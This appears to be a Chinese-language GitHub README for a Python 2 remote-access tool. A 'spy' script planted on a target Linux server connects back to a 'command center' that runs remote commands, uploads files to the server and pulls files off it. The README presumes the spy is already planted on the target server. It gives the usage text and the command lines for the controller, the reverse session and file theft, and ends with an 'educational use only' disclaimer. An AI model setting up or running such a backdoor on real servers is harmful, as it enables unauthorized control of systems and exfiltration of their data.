


# Remote Control For Linux Server

## 1. 功能

- 远程命令

- 文件植入

- 文件获取

## 2. 使用

### 2.1. 前提

**大前提**：假设间谍脚本`spy.py`已经植入目标服务器，即已经在远端执行了`python2 spy.py -h <host> -p <port>`

下列所有图片中，左侧代表“指挥部”，右侧代表远端的“间谍”。

### 2.2. 查看帮助

```
$ python2 ins.py
Usage:      python2 ins.py [Flags] [Options]
    Flags:  
                -c --cmdinput   If input command lines, default is no.
    Options:    
                -h --host       IPV4 for binding, default is 127.0.0.1.
                -p --port       Port for binding, default is 8080.
                -l --lisnum     Number of listening, default is 1.
                -s --size       Size of data for one TCP connection, default is 4096 * 10.
                -u --updest     The destiantion of file to upload.
                -d --downdest   The destination of file to download.
    Examples:
                python2 ins.py -h 122.233.78.211 -p 8090 -l 5 -c
                python2 ins.py -h 127.0.0.1 -u E:/imgs/1024.png
                python2 ins.py -p 8070 -d /home/user/imgs/512.jpg
```

### 2.3. 远程命令

“指挥部”执行如下指令：

```shell
$ python2 ins.py -h <host> -p <port> -l <listen-num> -c
```



### 2.4. 文件获取/植入

“指挥部”用两个终端开放两个端口，分别用于远程命令与文件操作，以文件获取为例（如下图左侧的上、下两部分）。

如下图左上部分所示，“指挥部”与“间谍”成功建立会话后，可确定间谍脚本的位置。之后发送如下命令，使“间谍”与“指挥部”建立一个新的会话用于文件传输。

```shell
$ python2 <spy-dir> -h <host> -p <new-port> -u <up-file-dir>
```

如下图左下部分所示，“指挥部”开放新端口，等待“间谍”与之建立会话后进行文件传输。

```shell
$ python2 ins.py -h <host> -p <new-port> -d <down-file-dir>
```



文件植入同理。

## 3. 声明

本程序仅供网络安全与socket编程相关的学习交流使用，不得用于一切不正当用途。
未经授权擅自使用，后果自负。
